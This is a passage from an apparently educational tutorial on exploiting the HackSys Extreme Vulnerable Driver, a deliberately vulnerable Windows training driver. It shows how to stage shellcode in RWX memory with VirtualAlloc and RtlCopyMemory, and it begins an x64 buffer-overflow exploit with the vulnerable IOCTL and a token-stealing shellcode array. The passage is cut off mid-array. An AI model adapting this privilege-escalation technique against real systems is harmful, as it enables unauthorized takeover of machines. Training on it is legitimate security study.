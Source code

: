 Theno open `shellcode.o` with [HxD](https://mh-nexus.de/en/hxd/), highlight the bytes in the text window, and do `Edit` -> `Copy as` -> `C`.

![Copy bytestring](./images/7_copy_bytestring.gif)

The byte string with the shellcode won't be stored in executable memory by default, so we'll need to allocate some executable space for it and copy it over.  This can be done with the `VirtualAlloc` and `RtlCopyMemory` functions:

```c++
lpShellcode = VirtualAlloc(NULL, 
                           shellcodeSize,
                           MEM_COMMIT | MEM_RESERVE,
                           PAGE_EXECUTE_READWRITE);

RtlCopyMemory(lpShellcode, TokenStealingPayloadWin8, shellcodeSize);
```

Make sure to assign the memory from `VirtualAlloc` `RWX` permissions so we can both copy in the shellcode and run it.

Here is the reworked x64 version of the exploit code:

```c
#include <windows.h>
#include <stdio.h>


// Vulnerable IOCTL
#define HEVD_IOCTL_BUFFER_OVERFLOW \
    CTL_CODE( 0x22, 0x800, METHOD_NEITHER, FILE_ANY_ACCESS )

// Sizes for overflow
#define BUFFER_SIZE 2048

#define POINTER_SIZE 8

CHAR TokenStealingPayloadWin8[] =
{
	0x50, 0x53, 0x51, 0x65, 0x48, 0x8B, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00,
```